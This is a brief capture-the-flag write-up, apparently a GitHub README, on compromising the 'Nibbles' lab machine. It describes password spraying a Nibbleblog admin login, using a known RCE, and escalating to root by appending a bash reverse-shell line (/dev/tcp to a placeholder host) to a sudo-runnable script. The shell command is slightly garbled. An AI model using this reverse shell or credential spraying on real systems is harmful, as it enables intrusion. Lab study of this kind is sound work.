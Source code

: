 ### Attacked Nibble

Did a portscan , found 22 SSH & 80 HTTP to be running 
after minutes of enumeration, discovered the cms to a nibble blog which is vulnerable to an authenticated php RCE, whiich means we need credentials for nibble blog cms

nibble as an account lockout policy after 10 tries wihich limit the number of password bruteforce attempts, using hydra to password spray we figure the credentials to be admin:nibbles

which is then used to get a meterpreter sesssion to then get USER.txt

Root is straight forward, as user nibbler could run monitor.sh as root, monitor.sh also is read and writable by user nibler 
a simple 

echo "bash -i &>1 /dev/tcp/LHOST/IP 0>&1" >> monito.sh
sudo -u root monitor.sh | bash

was enought to get root 

nibbles rooted 
## YIPEeee

Time to user : 4 Hours
Time to Root : 20 Seconds

![image](https://user-images.githubusercontent.com/12541755/113473673-99867900-9430-11eb-9c63-10f0cfdb951c.png)


